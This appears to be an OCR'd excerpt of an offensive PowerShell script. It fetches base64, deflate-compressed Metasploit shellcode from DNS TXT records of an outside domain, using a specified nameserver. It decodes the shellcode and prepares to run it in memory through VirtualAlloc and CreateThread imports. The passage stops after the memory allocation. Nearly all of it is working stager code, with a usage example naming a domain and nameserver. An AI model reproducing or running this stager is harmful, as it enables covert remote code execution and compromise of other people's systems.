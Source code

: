 ```
.EXAMPLE
PS > Execute-Code -Shelldomain 32.alteredsecurity.com -SubDomains 5 -AUTHNS f1g1ns2.dnspod.net.
Use above from non-interactive shell.
#>
    [CmdletBinding()] Param(
        [Parameter(Position = 0, Mandatory = $True)]
        [String]
        $Shelldomain,
        [Parameter(Position = 1, Mandatory = $True)]
        [String]
        $Subdomains,     
        [Parameter(Position = 2, Mandatory = $True)]
        [String]
        $AUTHNS
    )
    function Get-ShellCode
    {
        Param(
            [Parameter()]
            [String]
            $Shelldomain
        )
        $i = 1
        while ($i -le $subdomains)
        {
            $getcommand = (Invoke-Expression "nslookup -querytype=txt $i.$Shelldomain $AUTHNS") 
            $temp = $getcommand | select-string -pattern "`""
            $tmp1 = ""
            $tmp1 = $tmp1 + $temp
            $encdata = $encdata + $tmp1 -replace '\s+', "" -replace "`"", ""
            $i++
        }
        #$encdata = ""
        $dec = [System.Convert]::FromBase64String($encdata)
        $ms = New-Object System.IO.MemoryStream
        $ms.Write($dec, 0, $dec.Length)
        $ms.Seek(0,0) | Out-Null
        $cs = New-Object System.IO.Compression.DeflateStream ($ms, [System.IO.Compression.CompressionMode]::Decompress)
        $sr = New-Object System.IO.StreamReader($cs)
        $sc = $sr.readtoend()
        return $sc
    }
    $Shell = (Get-ShellCode $Shelldomain)
    #Remove unrequired things from msf shellcode
    $tmp = $Shell -replace "`n","" -replace '\$buf \+\= ',"," -replace '\[Byte\[\]\] \$buf \=' -replace " "
    [Byte[]]$sc = $tmp -split ','
    #Code Execution logic
    $code = @"
    [DllImport("kernel32.dll")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("msvcrt.dll")]
    public static extern IntPtr memset(IntPtr dest, uint src, uint count);
"@
    $winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru
    $size = 0x1000 
    if ($sc.Length -gt 0x1000) {$size = $sc.Length} 
    $x=$winFunc::VirtualAlloc(0,0x1000,$size,0x40) 
```